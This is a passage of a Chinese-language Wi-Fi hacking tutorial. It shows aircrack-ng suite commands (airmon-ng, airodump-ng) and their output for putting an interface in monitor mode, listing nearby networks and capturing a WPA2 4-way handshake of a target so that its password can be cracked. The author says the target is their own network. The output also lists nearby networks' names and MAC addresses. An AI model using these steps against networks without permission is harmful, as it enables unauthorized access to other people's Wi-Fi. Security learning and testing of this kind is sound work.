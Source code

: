我们将假设你的无线接口名称是 `wlan0`，但是请确保使用正确的名称如果你的名称与这个不同的话。接下来，我们将接口转换为监测模式：

```bash
airmon-ng start wlan0
```

运行 `iwconfig`。你现在应该能够看到列出一个新的监测模式接口（比如 `mon0` 或者 `wlan0mon`）。

## 找到你的目标

使用你的监测接口开始监听附近的 [802.11 Beacon 帧](https://en.wikipedia.org/wiki/Beacon_frame)广播：

```bash
airodump-ng mon0
```

你应该可以看到类似于下面的输出。

```
CH 13 ][ Elapsed: 52 s ][ 2017-07-23 15:49                                         

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 14:91:82:F7:52:EB  -66      205       26    0   1  54e  OPN              belkin.2e8.guests
 14:91:82:F7:52:E8  -64      212       56    0   1  54e  WPA2 CCMP   PSK  belkin.2e8
 14:22:DB:1A:DB:64  -81       44        7    0   1  54   WPA2 CCMP        <length:  0>
 14:22:DB:1A:DB:66  -83       48        0    0   1  54e. WPA2 CCMP   PSK  steveserro
 9C:5C:8E:C9:AB:C0  -81       19        0    0   3  54e  WPA2 CCMP   PSK  hackme
 00:23:69:AD:AF:94  -82      350        4    0   1  54e  WPA2 CCMP   PSK  Kaitlin's Awesome
 06:26:BB:75:ED:69  -84      232        0    0   1  54e. WPA2 CCMP   PSK  HH2
 78:71:9C:99:67:D0  -82      339        0    0   1  54e. WPA2 CCMP   PSK  ARRIS-67D2
 9C:34:26:9F:2E:E8  -85       40        0    0   1  54e. WPA2 CCMP   PSK  Comcast_2EEA-EXT
 BC:EE:7B:8F:48:28  -85      119       10    0   1  54e  WPA2 CCMP   PSK  root
 EC:1A:59:36:AD:CA  -86      210       28    0   1  54e  WPA2 CCMP   PSK  belkin.dca
```

出于这个演示的目的，我们将会破解我自己的网络，"hackme"。记住利用 `airodump-ng` 展示的 BSSID， MAC 地址以及信道（`CH`）号，在下一个步骤中我们将会需要它们。

## 捕获 4-way Handshake

WPA/WPA2 使用 [4-way Handshake](https://security.stackexchange.com/questions/17767/four-way-handshake-in-wpa-personal-wpa-psk) 来认证设备连接网络。你不需要明白这些的含意，但是你必须抓取 handshake 才能破解网络密码。这些握手发生在设备连接网络的时候，比如，当你的邻居工作回家的时候。我们通过之前命令发现的信道以及 bssid 值来使用 `airmon-ng` 来监视目标网络。

```shell
# 将 -c 以及 --bssid 值替换为你的目标网络值
# -w 用来指定我们保存捕获到数据包的文件夹
airodump-ng -c 3 --bssid 9C:5C:8E:C9:AB:C0 -w . mon0
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]                                        

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 9C:5C:8E:C9:AB:C0  -47   0      140        0    0   6  54e  WPA2 CCMP   PSK  ASUS  
```

现在让我们等一会儿... 当我们捕捉到一个握手时，你应该能够马上在屏幕的右上角看到类似于`[ WPA handshake: bc:d3:c9:ef:d2:67`的一些东西。
